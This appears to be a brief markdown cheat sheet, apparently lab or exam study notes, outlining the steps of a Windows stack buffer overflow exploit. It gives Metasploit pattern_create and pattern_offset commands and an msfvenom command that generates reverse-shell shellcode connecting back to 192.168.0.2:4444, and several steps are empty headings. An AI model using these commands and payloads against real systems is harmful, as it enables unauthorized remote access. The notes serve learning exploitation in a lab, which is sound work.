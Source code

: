 ## Buffer Overflow


<img width="499" alt="image" src="https://user-images.githubusercontent.com/79740895/224550622-34264bf4-1bf6-4980-8499-d5afaabcc186.png">


### spiking
### fuzzing


- Create Pattern:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 223

msf-pattern_create  -l 223
```

### Find Offset

```
msf-pattern_offset  -l 3000 -q 386F4337

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### Overwrite the EIP
### Find Bad Characters
https://github.com/cytopia/badchars

### Finding the right module
### Generating Shellcode
```
msfvenom -p  windows/shell_reverse_tcp LHOST=192.168.0.2 LPORT=4444 EXITFUNC=thread -f c -b "\x00" -a x86
```


